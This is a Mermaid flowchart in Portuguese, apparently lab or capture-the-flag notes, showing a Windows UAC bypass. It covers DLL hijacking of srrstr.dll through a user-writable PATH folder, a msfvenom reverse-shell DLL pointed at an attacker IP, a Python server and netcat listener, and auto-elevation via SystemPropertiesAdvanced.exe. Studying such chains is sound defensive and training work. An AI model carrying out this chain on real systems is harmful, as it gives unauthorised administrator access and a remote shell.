

# User Account Control

```mermaid
 flowchart TD
    A[Início: Usuário Administrador com UAC Ativo] --> B{Verificação de Configurações UAC}
    
    B --> C[UAC Completamente Ativo<br>EnableLUA: 0x1<br>Nível Alto: 0x5 Always Notify]
    C --> D[Estado Inicial do Usuário<br>Usuário: sarah<br>Grupo: Administrators<br>Token: Baixos Privilégios]
    
    D --> E[Identificação da Vulnerabilidade<br>UACME Technique #54<br>Windows 10 Build 14393-19041]
    
    E --> F{Análise do Mecanismo de Auto-Elevação}
    F --> G[Binário Alvo Identificado<br>SystemPropertiesAdvanced.exe 32-bit<br>Busca DLL: srrstr.dll]
    
    G --> H[Ordem de Busca de DLL Explorada<br>1. Diretório da aplicação<br>2. System32 64-bit<br>3. Windows directory<br>4. PATH - Ponto de Injeção]
    
    H --> I[PATH Analisado<br>C:\Windows\system32<br>C:\Windows<br>C:\Windows\System32\Wbem<br>C:\Users\sarah\AppData\Local\Microsoft\WindowsApps<br>Gravável pelo usuário]
    
    I --> J[Criação do Payload Malicioso<br>msfvenom -p windows/shell_reverse_tcp<br>LHOST=10.10.14.3 LPORT=8443<br>Formato: DLL → srrstr.dll]
    
    J --> K[Implantação do Payload<br>Download via HTTP:8080<br>Localização: WindowsApps\srrstr.dll<br>Posicionamento estratégico]
    
    K --> L[Preparação do Ambiente Atacante]
    L --> M[Servidor Web Python<br>Porta 8080<br>Hosting srrstr.dll]
    L --> N[Listener Netcat<br>Porta 8443<br>Aguardando reverse shell]
    
    M --> O[Execução do Gatilho<br>C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe<br>Auto-elevação automática<br>Carrega srrstr.dll malicioso]
    N --> O
    
    O --> P[Exploração Bem-sucedida<br>DLL Hijacking Completo<br>srrstr.dll executado<br>Processo elevado carrega payload]
    
    P --> Q[Shell Reverso Estabelecido<br>Conexão: 10.129.43.16 → 10.10.14.3:8443<br>Shell interativo recebido<br>Bypass UAC concluído]
    
    Q --> R[Privilégios Finais Obtidos<br>Token de Administrador Ativo<br>SeDebugPrivilege + SeImpersonatePrivilege<br>+20 privilégios disponíveis<br>Elevação completa sem prompt UAC]

    style A fill:#e1f5fe
    style C fill:#ffebee
    style D fill:#fff3e0
    style G fill:#e8f5e8
    style I fill:#fff8e1
    style J fill:#f3e5f5
    style O fill:#e3f2fd
    style P fill:#fff3e0
    style Q fill:#e8f5e8
    style R fill:#c8e6c9
```
